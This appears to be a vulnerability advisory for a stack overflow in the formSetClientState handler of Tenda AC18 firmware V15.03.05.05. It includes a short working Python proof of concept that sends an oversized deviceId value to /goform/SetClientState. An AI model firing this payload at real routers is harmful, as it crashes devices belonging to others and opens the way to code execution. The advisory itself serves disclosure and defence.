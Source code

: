 ## Overview

- The device's official website: https://www.tenda.com.cn/product/overview/AC18.html

- Firmware download website: https://www.tenda.com.cn/download/detail-2610.html

## Affected version

V15.03.05.05

## Vulnerability details

The Tenda AC18 V15.03.05.05 firmware has a stack overflow vulnerability in the `formSetClientState` function. The `v9` variable receives the `deviceId` parameter from a POST request. The value is directly used in a `sprintf` function and passes to a local variable on the stack, which can override the return address of the function. The user-provided  `deviceId` can trigger this security vulnerability.

![image-20240305223025837](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240305223025837.png)

![image-20240305223038098](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240305223038098.png)

![image-20240305223056646](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240305223056646.png)

## POC

```python
import requests
from pwn import*

ip = "192.168.84.101"
url = "http://" + ip + "/goform/SetClientState"
payload = b"a"*1000

data = {'limitEn':1,"deviceId": payload}
response = requests.post(url, data=data)
print(response.text)
```

![image-20240305222933979](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240305222933979.png)
